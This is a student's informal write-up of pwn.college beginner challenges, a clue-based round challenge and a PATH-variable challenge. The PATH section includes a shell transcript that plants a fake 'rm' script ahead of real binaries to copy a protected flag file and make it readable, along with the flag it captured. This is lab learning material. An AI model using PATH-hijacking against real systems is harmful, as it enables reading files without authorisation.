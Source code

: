 >Way:
a) I found this challenge hard
b) The challenge looked simple and i thought i had only 8 chances
c) Then i realised that i need to do 8 rounds and after that i need to retrieve flag
d) First i started the challenge with /challenge/run
e) Then I tried to list it and use a command which would be helpful for the next challenge in this module also so i thought we could use in this also 
f) That turned to incorrect
g) Then i understood every clue it gave had a specific number or PID related to it
h) I had tried to check if it is given in the module in any challenge, but i could find only less so I had to check in google or chatgpt to find the number related to it
i) It worked and 2nd round worked and i listed it 
j) The i used the clue for round 2 for round 3 and so on
k) Though the challenge is easy, but i had gotten confused and made it tough for myself
l) I kept of getting clues till round 8
m) Then it showed all rounds are done
n) After that it became easy and i had used 'chmod' , listing and 'cat' to retrieve the flag



3) The Path Variable (Pondering Path)
> Code:
'''
hacker@path~the-path-variable:~$ ORIG_PATH="$PATH"
hacker@path~the-path-variable:~$ /bin/mkdir -p /tmp/fakebin
hacker@path~the-path-variable:~$ /bin/cat > /tmp/fakebin/rm <<'EOF'
> #!/bin/sh
if [ -e /flag ]; then
  /bin/cp -a /flag /tmp/flag.backup 2>/dev/null || /bin/echo "backup copy failed" >/dev/null
  /bin/chmod 644 /tmp/flag.backup 2>/dev/null || /bin/echo "chmod failed" >/dev/null
fi
exit 0
EOF
hacker@path~the-path-variable:~$ /bin/chmod +x /tmp/fakebin/rm
hacker@path~the-path-variable:~$ export PATH="/tmp/fakebin:$PATH"
hacker@path~the-path-variable:~$ hash -r
hacker@path~the-path-variable:~$ /bin/echo "CURRENT PATH: $PATH"
CURRENT PATH: /tmp/fakebin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~the-path-variable:~$ /tmp/fakebin/rm
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
The flag is still there! I might as well give it to you!
pwn.college{QVwZ8MVoJFS6TSv533bXZ5sxgRQ.QX2cDM1wSNxIzNzEzW}
'''

> Way:
a) First i understood what PATH was by the sheet given to us and a bit research i had done
b) After knowning what PATH was I still couldn't understand what to do in the chalenge
c) I tried to do what the example in the challenge discription was but it didn't work
d) Then i tried a bit what's there in the next challenges which worked a bit
e) Then as in chaining commands module i tried to write a python code in a command which worked
f) Then it became easy and I easily exported PATH and easily got answer
g) I found this challenge a bit difficult as I had to remember previous modules and had to try much stuff which took time 
